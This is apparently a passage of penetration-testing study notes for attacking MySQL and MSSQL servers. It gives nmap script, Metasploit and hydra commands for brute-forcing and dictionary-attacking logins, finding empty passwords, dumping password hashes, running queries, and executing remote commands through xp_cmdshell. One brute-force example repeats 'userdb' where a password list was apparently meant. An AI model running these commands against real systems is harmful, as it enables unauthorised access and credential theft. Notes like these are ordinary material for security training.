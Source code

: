 <mark style="background: #FFB86CA6;">--script=mysql-query</mark>
+ <mark style="background: #ADCCFFA6;">make a query</mark>
+ Example: `nmap IP -p 3306 --script=mysql-dump_hashes --script-args="query='select count(*) from books.authors;',username='root',password=''"`

### MySQL Dictionary Attack 

<mark style="background: #FF5582A6;">msfconcole</mark>
+ <mark style="background: #ADCCFFA6;">mysql_login</mark>
	+ `use scanner/mysql/mysql_login`
		+ `set rhosts IP`
		+ `set pass_file /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt`
		+ `set stop_on_success true`
		+ `set verbose false`
		+ `set username root`

<mark style="background: #D2B3FFA6;">hydra</mark>
+ example: `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql`

### MSSQL (Microsoft) Nmap Script 

<mark style="background: #FFB86CA6;">--script ms-sql-info</mark>
+ Will get info like <mark style="background: #ADCCFFA6;">services, patches, name</mark>, etc
+ Example: `nmap IP -p 1433 --script ms-sql-info`

<mark style="background: #FFB86CA6;">--script ms-sql-ntlm-info</mark>
+ Will get info <mark style="background: #ADCCFFA6;">names and NetBIOS names</mark>
+ Example: `nmap IP -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433`

<mark style="background: #FFB86CA6;">--script ms-sql-brute</mark>
+ Will run a <mark style="background: #ADCCFFA6;">brute force</mark>
+ Example: `nmap IP -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,userdb=/root/Desktop/wordlist/100-common_passwords.txt`

<mark style="background: #FFB86CA6;">--script ms-sql-empty-password</mark>
+ Will look for <mark style="background: #ADCCFFA6;">empty passwords</mark>
+ Example: `nmap IP -p 1433 --script ms-sql-empty-password`

<mark style="background: #FFB86CA6;">--script ms-sql-query</mark>
+ Can <mark style="background: #ADCCFFA6;">run a query</mark>
+ Example: `nmap IP -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN ouput.txt`
  + will do the described query and push it into a text file

<mark style="background: #FFB86CA6;">--script ms-sql-dump-hashes</mark>
+ Will <mark style="background: #ADCCFFA6;">dump hashes</mark> for users
+ Example: `nmap IP -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria`

<mark style="background: #FFB86CA6;">--script ms-sql-xp-cmdshell</mark>
+ Will be able to <mark style="background: #ADCCFFA6;">run a shell remotely</mark> 
+ Example: `nmap IP -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
  + the above will run a `ipconfig`
  + note on windows, rather then `cat` will use `type`
